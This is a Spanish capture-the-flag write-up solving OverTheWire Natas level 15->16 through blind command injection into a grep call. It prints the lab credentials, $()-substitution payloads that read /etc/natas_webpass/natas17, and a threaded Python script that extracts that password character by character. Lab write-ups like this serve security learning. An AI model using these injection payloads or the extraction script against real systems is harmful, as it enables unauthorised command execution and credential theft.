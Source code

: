 ```yaml
---
title: OverTheWire - Natas 15 -> 16 (sin navegador)
layout: post
description: La resolución de Natas 15 -> 16 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información

---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas16
Password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
URL:      http://natas16.natas.labs.overthewire.org
```

# Solución

---

Abrimos Postman, pegamos la URL e ingresamos nuestras credenciales.

![](/images/images-otw-natas/natas15-16-1.png)

La página nos responde con un formulario y y un código fuente.

![](/images/images-otw-natas/natas15-16-2.png)

Agregamos el nombre del archivo a la URL y al enviar la petición debemos hacer click en la pestaña **Preview** para visualizar todo de manera más cómoda.

![](/images/images-otw-natas/natas15-16-3.png)

La aplicación recibe un input y lo inserta en el comando `grep`, nuestra misión es baipasear este comando y obtener la contraseña de natas17. El reto es simple pero tiene una complejidad, 2 líneas más arriba vemos que se está realizando un filtrado de los siguientes caracteres: ```;|&`'"```.

![](/images/images-otw-natas/natas15-16-4.png)

Volvemos a la ruta principal y vamos a la pestaña **Params**, debemos ingresar el nombre del parámetro `needle` y la letra que queramos.

![](/images/images-otw-natas/natas15-16-5.png)

Observamos que el comando grep se ejecuta correctamente y nos devuelve toda las palabras que contienen la letra `a`  y `A` (Devuelve mayúscula y minúscula porque en el comando grep se estaba utilizando el parámetro `-i`, este parámetro realiza una búsqueda case insensitive).

Así se ve el comando que el servidor ejecutará:

```bash
grep -i a dictionary.txt
```

![](/images/images-otw-natas/natas15-16-6.png)

Como la aplicación no está filtrandoo el caracter `$` podemos ejecutar comandos con `$()`. Linux leerá `$()` y ejecutará todo lo que esté dentro de este paréntesis primero.

Así se ve el comando que el servidor ejecutará:

```bash
grep -i a$(cat /etc/natas_webpass/natas17) dictionary.txt
```

El servidor no nos responde nada.

![](/images/images-otw-natas/natas15-16-7.png)

Si probamos esta ves ejecutar el comando `cat` con un archivo que no existe notamos que el servidor ahora nos responde con palabras.

```bash
grep -i a$(cat /etc/natas_webpass/natas17loquesea) dictionary.txt
```

![](/images/images-otw-natas/natas15-16-8.png)

Podemos concluir que estamos frente a una ejecución de comandos blind, no vemos el output de nuestros comandos, pero podemos inferir que el comando se ejecutó correctamente si la página no nos responde con nada.

Con esta información realizaremos un grep al archivo natas17 para obtener la contraseña. Si existe la letra `a` en el archivo natas17 entonces la página no nos debería mostrar nada.

```bash
grep -i a$(grep a /etc/natas_webpass/natas17) dictionary.txt
```

![](/images/images-otw-natas/natas15-16-9.png)

Seguimos probando y encontramos que la letra `d` existe en el archivo natas17.

```bash
grep -i a$(grep d /etc/natas_webpass/natas17) dictionary.txt
```

![](/images/images-otw-natas/natas15-16-10.png)

Este comando no es suficiente porque no tenemos forma de saber en qué posición está la letra `d` ni cuántas veces se encuentra. Para solucionar esta agregaremos el símbolo `^` antes de la letra, esto le indica al comando grep que busque una palabra que empiece por la letra que nosotros le indiquemos.

```bash
grep -i a$(grep ^a /etc/natas_webpass/natas17) dictionary.txt
```

Vemos palabra así que la letra `a` no es la primera letra de la contraseña.

![](/images/images-otw-natas/natas15-16-11.png)

Seguimos probando hasta llegar a la letra `X`.

```bash
grep -i a$(grep ^X /etc/natas_webpass/natas17) dictionary.txt
```

El servidor no nos responde nada, esto significa que le letra `X` es la primera letra de la contraseña ubicada en el archivo natas17.

![](/images/images-otw-natas/natas15-16-12.png)

Obviamente adivinar la contraseña no es nada eficiente, para resolver este escribí un script en python3 que utiliza hilos para adivinar la contraseña de una manera muy rápida.

![](/images/images-otw-natas/natas15-16-13.png)

```python
import requests
import string
import threading


def main():
    # Credentials
    url = "http://natas16.natas.labs.overthewire.org/"
    username = "natas16"
    natas16_pwd = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"

    characters = string.ascii_letters + string.digits

    # Session
    session = requests.Session()
    session.auth = (username, natas16_pwd)

    natas17_pwd = []
    threads = []

    def test_password(character, password):
        # Payload
        data = {"needle": f"$(grep ^{password + character} /etc/natas_webpass/natas17)"}

        r = session.post(url, data=data)

        # If response is empty that means our grep is correct
        if len(r.text) != 461926:
            natas17_pwd.append(character)

    for _ in range(32):
        password = "".join(natas17_pwd)
        print(password)

        # For every character it creates a thread that make a request to the webpage
        for character in characters:
            t = threading.Thread(target=test_password, args=(character, password))
            threads.append(t)

        for x in threads:
            x.start()

        for x in threads:
            x.join()
        threads = []

    natas17_pwd = "".join(natas17_pwd)
    print(natas17_pwd)


if __name__ == "__main__":
    main()

```


# Contraseña

---

`XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`

---

## [Anterior](/level-14-15)

## [Siguiente](/level-16-17)
